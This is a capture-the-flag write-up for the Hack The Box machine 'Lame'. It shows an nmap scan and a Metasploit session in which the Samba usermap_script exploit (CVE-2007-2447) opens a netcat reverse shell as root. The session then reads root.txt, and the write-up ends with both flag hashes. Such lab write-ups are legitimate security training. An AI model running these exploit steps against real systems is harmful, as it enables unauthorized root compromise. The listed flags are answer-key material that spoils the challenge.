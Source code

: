 ```yaml
---
title: "HTB: LAME"
author: "v3l1d"
date: "2024-08-04"
---  
```

![](attachment/43ebccb6774d75bacfaa80b40cc8e5ce.png)

### Port Scan

```shell
Nmap 7.94SVN scan initiated Sat Aug 10 08:35:19 2024 as: nmap -sC -sV -A -T4 -Pn -o scan 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 ```

Anonymous connection FTP but nothing there

### CVE-2007-2447

Looking online i found this vulnerability for this version of smb


```shell
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ msfconsole                                                                      
msf6 > search smb 3.0.20
[-] No results from search
msf6 > smb 3.0.20
[-] Unknown command: smb. Run the help command for more details.                                                                                                 
msf6 > search samba 3.0                                                                                                                                          
                                                                                                                                                                 
Matching Modules                                                                                                                                                 
================                                                                                                                                                                                                                                                                                                 
   #   Name                                                   Disclosure Date  Rank       Check  Description                                                     
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   1   exploit/linux/samba/chain_reply                        2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2     \_ target: Linux (Debian5 3.2.5-4lenny6)             .                .          .      .
   3     \_ target: Debugging Target                          .                .          .      .
   4   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   5     \_ target: Linux vsyscall                            .                .          .      .
   6     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
   7     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
   8     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
   9     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
   10    \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
   11    \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
   12    \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
   13    \_ target: DEBUG                                     .                .          .      .
   14  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15    \_ target: Automatic                                 .                .          .      .
   16    \_ target: Mac OS X 10.4.x x86 Samba 3.0.10          .                .          .      .
   17    \_ target: Mac OS X 10.4.x PPC Samba 3.0.10          .                .          .      .
   18    \_ target: DEBUG                                     .                .          .      .
   19  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   20    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
   21    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
   22    \_ target: DEBUG                                     .                .          .      .

Interact with a module by name or index. For example info 22, use 22 or use exploit/solaris/samba/lsa_transnames_heap
After interacting with a module you can manually set a TARGET with set TARGET 'DEBUG'
msf6 > use exploit/multi/samba/usermap_script 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)
Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.163.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(multi/samba/usermap_script) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/samba/usermap_script) > exploit
[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set RPORT 139
RPORT => 139
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 10.10.14.185:9091 
[*] Command shell session 1 opened (10.10.14.185:9091 -> 10.10.10.3:47888) at 2024-08-10 09:35:50 -0400

whoami
root
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
6118f8816315bd33ecac622d179c65af
```

![](attachment/95e2ca9714b079079c673225e5a17f15.png)![](attachment/e0218db999901f943bf934f889d0edec.png)

### Flags

```
root:6118f8816315bd33ecac622d179c65af
user:15fd56e82fdefb166bfb1631b6c6360a

```